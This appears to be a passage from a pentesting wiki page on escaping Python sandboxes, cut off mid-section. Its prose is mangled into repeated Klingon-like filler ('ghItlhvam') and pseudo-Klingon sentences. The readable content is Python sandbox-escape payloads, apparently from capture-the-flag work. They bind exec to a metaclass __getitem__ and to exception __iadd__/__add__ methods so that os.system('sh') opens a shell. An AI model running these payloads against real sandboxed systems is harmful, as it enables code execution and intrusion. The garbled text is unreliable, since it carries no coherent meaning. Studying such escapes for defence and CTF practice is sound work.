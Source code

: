 **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhv
```python
# Code from https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/ and fixed
# This will define the members of the "subclass"
class Metaclass(type):
__getitem__ = exec # So Sub[string] will execute exec(string)
# Note: Metaclass.__class__ == type

class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
pass # Nothing special to do

Sub['import os; os.system("sh")']

## You can also use the tricks from the previous section to get RCE with this object
```
#### Creating objects with exceptions

**QaStaHvIS** **ghItlh** **exception** **trigger** **vItlhutlh** **Exception** **ghItlh** **object** **tlhutlh** **constructor** **cha'logh** **ghItlh** **vItlhutlh** (a trick from [**@\_nag0mez**](https://mobile.twitter.com/\_nag0mez)):
```python
class RCE(Exception):
def __init__(self):
self += 'import os; os.system("sh")'
__iadd__ = exec #Triggered when object is created
raise RCE #Generate RCE object


# RCE with __add__ overloading and try/except + raise generated object
class Klecko(Exception):
__add__ = exec

try:
raise Klecko
except Klecko as k:
k + 'import os; os.system("sh")' #RCE abusing __add__

## You can also use the tricks from the previous section to get RCE with this object
```
### More RCE
